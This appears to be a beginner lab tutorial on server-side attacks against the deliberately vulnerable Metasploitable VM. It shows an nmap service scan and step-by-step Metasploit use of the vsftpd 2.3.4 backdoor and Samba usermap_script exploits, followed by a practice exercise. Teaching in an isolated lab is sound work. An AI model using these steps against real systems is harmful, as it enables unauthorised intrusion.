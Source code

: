 # Access to operating systems

## High Level Goals

By the end of this lesson, you will be familiar with the following:
1. Introduction to gaining access
2. Server side.

## Introduction 

In this stage, we're going to be talking about gaining access to computer devices.

What do we mean by computer devices?
Any electronic device you see is a computer. A phone, a TV, a laptop, a web server, a website, a network, a router, all of these things are computers
Each one of them has an operating system, and they have programs installed on these operating systems.

We're going to be talking about attacking these devices from two main sides: 
1. Server side.
2. Client side.


## server side

First things, we want to run the kali and the Metasploitable.
We want to know the information about the target, we need to scan the target

	nmap 10.0.2.7

> In my case the IP adress of the Metasploitable is 10.0.2.7 you will have another IP.
 
 we will see these output
 
	┌──(tetra㉿kali)-[~]
	└─$ nmap -sV 10.0.2.7    
	Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-24 10:46 EEST
	Nmap scan report for 10.0.2.7
	Host is up (0.00013s latency).
	Not shown: 977 closed ports
	PORT     STATE SERVICE     VERSION
	21/tcp   open  ftp         vsftpd 2.3.4
	22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
	23/tcp   open  telnet      Linux telnetd
	25/tcp   open  smtp        Postfix smtpd
	53/tcp   open  domain      ISC BIND 9.4.2
	80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
	111/tcp  open  rpcbind     2 (RPC #100000)
	139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	512/tcp  open  exec        netkit-rsh rexecd
	513/tcp  open  login       OpenBSD or Solaris rlogind
	514/tcp  open  tcpwrapped
	1099/tcp open  java-rmi    GNU Classpath grmiregistry
	1524/tcp open  bindshell   Metasploitable root shell
	2049/tcp open  nfs         2-4 (RPC #100003)
	2121/tcp open  ftp         ProFTPD 1.3.1
	3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
	5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
	5900/tcp open  vnc         VNC (protocol 3.3)
	6000/tcp open  X11         (access denied)                                   
	6667/tcp open  irc         UnrealIRCd                                        
	8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)                      
	8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1               
	MAC Address: 08:00:27:10:69:2F (Oracle VirtualBox virtual NIC)               
	Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 11.86 seconds


know we see we have port `21/tcp` is open and running `ftp` service which have `vsftpd 2.3.4`  if we go in the Google and write vsftpd 2.3.4 exploit

![vsftpdexploit](/img/vsftpdexploit1.png)

### Metasploit 

What is Metasploit 

Metasploit is an exploit development and execution tool. it can also be used to carry out other penetration testing tasks such as port scans, service identification and post exploitation tasks. We have some command for Metasploit 

|command| what it does |
|--|--|
| `msfconsole` | runs the metasploit console |
| `help` | shows help |
| `show [something]` | something can be exploits, payloads, auxiliaries or options |
| `use[something]` | use a certain exploit, payload or auxiliary |
| `set[option] [value]` | confider[option] to have a value of [value]|
| `exploit` | runs the current task |

now go to the terminal:

1. write `msfconsole` 

![msfconsole1](/img/msfconsole1.png)

2. we want to add the command that we take it from this [website,](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/) which is `use exploit/unix/ftp/vsftpd_234_backdoor`

![msfconsole2](/img/msfconsole2.png)

3.  we need to show option to know what can we do `show options`

![showoption](/img/showoption.png)

4. we need to change the `RHOST` by using `set RHOST 10.0.2.7`

![setRHOST](/img/setRHOST.png)

5. know write `exploit` awesome we hacked the Metasploit .

Now let's try to another service, let's see `139/tcp` which have service `netbios-ssn` 

1. Go to the Google and write `Samba smbd 3.X exploit`
2. open `msfconsole`
3. use the `use use exploit/multi/samba/usermap_script`
4. show options and set the options
5. run the command `exploit`

## practice

1. Open your kali and metasploit machine.
2. Hack the metasploit machine. 
3. In the files in  metasploit machine,  there is 1 game what is the game name?
